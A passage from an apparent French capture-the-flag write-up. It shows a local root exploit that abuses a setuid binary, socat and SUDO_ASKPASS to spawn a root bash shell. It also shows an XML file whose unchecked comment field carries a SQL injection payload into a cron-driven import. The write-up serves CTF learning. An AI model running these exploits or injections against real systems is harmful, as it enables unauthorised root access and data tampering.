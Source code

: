 ```
int main(void)
{
        printf("Exploiting!\n");
        int fd = open("/proc/self/exe", O_RDONLY);
        struct stat st;
        fstat(fd, &st);
        if (st.st_uid != 0)
        {
                fchown(fd, 0, st.st_gid);
                fchmod(fd, S_ISUID|S_IRUSR|S_IWUSR|S_IXUSR|S_IXGRP);
        }
        else
        {
                setuid(0);
                execve("/bin/bash",NULL,NULL);
        }
return 0;
}
EOF
cc -w exec.c -o /tmp/pipe
./socat pty,link=/tmp/pty2,waitslave exec:"perl xpl.pl"&
sleep 0.5
export SUDO_ASKPASS=/tmp/pipe
sudo -k -S id < /tmp/pty2
/tmp/pipe
```

**PHACK{\*\_\*\*\*\*\_\*\*\*\*\_\*\*\*\*\_\*\*\*\_\*\*\_\*\_\*\*\*\*\_\*\*\*}**

## Graduated
Une tâche cron tourne et exécute un script python auquel on a pas accès. Cependant on devine qu'il va lire les fichiers XML qu'on place dans /home/teache/done pour intégrer les données dans une base de données.

Le champ COMMENT n'a pas de vérification (contrairement aux autres) et il est donc possible d'injecter une commande :

```
<?xml version="1.0" encoding="utf-8"?>

<evaluation>
  <student>
    <firstname>Maxime</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>20</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>' || sqlite_version(), 0, 0) -- </comment>
</evaluation>
```
